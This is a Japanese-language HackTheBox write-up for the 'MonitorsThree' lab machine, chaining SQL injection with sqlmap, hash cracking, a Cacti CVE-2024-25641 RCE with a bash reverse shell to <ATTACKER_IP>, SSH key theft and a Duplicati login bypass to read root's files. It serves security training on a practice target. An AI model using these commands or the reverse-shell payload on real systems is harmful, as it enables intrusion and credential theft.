🌐 [English](README.md) | [Français](README.fr.md) | [日本語](README.ja.md)

# MonitorsThree — HackTheBox ライトアップ

<div style="display: flex; align-items: center; gap: 20px;">

<div>

**難易度**: Medium  
**OS**: Linux  
**タイプ**: Web / SQLi / CVE  

</div>
</div>

---

## 攻撃チェーンの概要

```
Nmap → dirsearch → ffuf → cacti.monitorsthree.htb
→ SQLi (パスワードリセット) → sqlmap → ハッシュクラック (hashcat)
→ CVE-2024-25641 RCE → リバースシェル (www-data)
→ su marcus → SSH (id_rsa) → ユーザーフラグ
→ linpeas → Duplicati (localhost) → SSH トンネル
→ Duplicati 認証バイパス → root.txt バックアップ → ルートフラグ
```

---

## 列挙

### Nmap スキャン

```bash
nmap -sC -sV <TARGET_IP> -oN scan.txt -Pn
```



開放ポート: SSH (22)、HTTP (80)、補助サービス (5555、8084)。  
ターゲット: `monitorsthree.htb` — Linux。

> SSH は後で使用する。ポート 5555 と 8084 に明確な攻撃経路はない。

### DNS 設定

ポート 80 にアクセスするには `/etc/hosts` にホスト名を追加する必要がある:

```bash
sudo nano /etc/hosts
```


### ディレクトリ列挙

```bash
dirsearch -u http://monitorsthree.htb/
```



JS/フォント/画像ファイルと `/admin` ページが見つかる — まだアクセス不可。

### サブドメイン列挙

```bash
ffuf -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-110000.txt \
  -u http://monitorsthree.htb/ -H "Host: FUZZ.monitorsthree.htb" -fs 13560
# -fs 13560 はフォールスポジティブをフィルタリング
```



`cacti.monitorsthree.htb` を発見 — システム監視ツール。`/etc/hosts` に追加するとログインパネルが表示され、動作バージョンが確認できる。



---

## 初期侵入 — SQLi + CVE-2024-25641 RCE

### パスワードリセットページの SQL インジェクション

「パスワードをお忘れですか」ページが SQL インジェクションに脆弱。



Burp Suite でリクエストをキャプチャ:



### SQLMap でデータベースを抽出

```bash
sqlmap -r request.txt --dbs --batch
```



```bash
sqlmap -r request.txt --dbms=mysql --technique=B \
  -D monitorsthree_db --dump-all --random-agent --level 5
```

ハッシュ化されたパスワード複数件と `admin` 認証情報を回収。

### ハッシュクラック

```bash
hashcat -m 0 -a 0 "<MD5_HASH>" /usr/share/wordlists/rockyou.txt --show
```

4 つのハッシュのうち 1 つがクラック成功 → パスワード取得。

### Cacti へのログイン

認証情報: `admin` / `<クラックしたパスワード>`



### CVE-2024-25641 による RCE

このバージョンの Cacti は認証済み RCE に脆弱。[@StopThatTalace](https://github.com/StopThatTalace/CVE-2024-25641-CACTI-RCE-1.2.26) の PoC を使用。

**リスナー:**

```bash
nc -lnvp 4242
```

**エクスプロイト:**

```bash
python3 CVE-2024-25641.py http://cacti.monitorsthree.htb/cacti/ \
  --user admin --pass <ADMIN_PASSWORD> \
  -x "bash -c 'bash -i >& /dev/tcp/<ATTACKER_IP>/4242 0>&1'"
```



`www-data` としてシェルを取得。

---

## ユーザーフラグ

### marcus へのピボット

```bash
ls /home
```



marcus への SSH 接続には鍵が必要:



データベースから回収したパスワードで marcus に切り替え、SSH 鍵を配信:

```bash
# ターゲット上、marcus として:
cd /home/marcus/.ssh
python3 -m http.server
```

```bash
# Kali 側:
wget http://<TARGET_IP>:8000/id_rsa
```



```bash
chmod 600 id_rsa
ssh -i id_rsa marcus@<TARGET_IP>
```



ユーザーフラグ取得。

---

## 権限昇格 — Duplicati 認証バイパス

### 内部ポートの発見

```bash
# linpeas
```



内部ポートで動作している Web アプリを発見。SSH トンネルを構築してアクセス:



`Duplicati` がローカルで動作している:



### Duplicati 認証のバイパス

[この記事](https://medium.com/@STarXT/duplicati-bypassing-login-authentication-with-server-passphrase-024d6991e9ee) を参考にログインをバイパス:

1. **データベースパスワードを抽出** — Duplicati のローカル設定ファイルから (marcus としてアクセス可能)。
2. **Burp Suite でノンスを取得** — ログインフロー中にインターセプト。
3. **有効なパスワードを生成** — ノンス + データベースパスフレーズから計算。





インターセプトしたリクエストのパスワードフィールドを生成値に置き換える → 認証成功。



Duplicati は root 権限で動作しており、システム上の任意ファイルを読み取れる。

### バックアップ/リストアで root.txt を読む

**保存先:** `/source/home/marcus`



**ソース:** `/root/root.txt`



**バックアップを実行:**



**リストア:**



**結果:**



ルートフラグ取得。

---

## 使用ツール

- `nmap` — ポートスキャン
- `dirsearch` — ディレクトリ列挙
- `ffuf` — サブドメインファジング
- `sqlmap` — SQL インジェクション攻撃
- `hashcat` — ハッシュクラック
- `burp suite` — リクエストインターセプト
- `CVE-2024-25641` PoC — Cacti RCE
- `netcat` — リバースシェルリスナー
- `ssh` / `wget` — 鍵の取得
- `linpeas` — 権限昇格の列挙
- `duplicati` — root 権限でのバックアップ/リストア

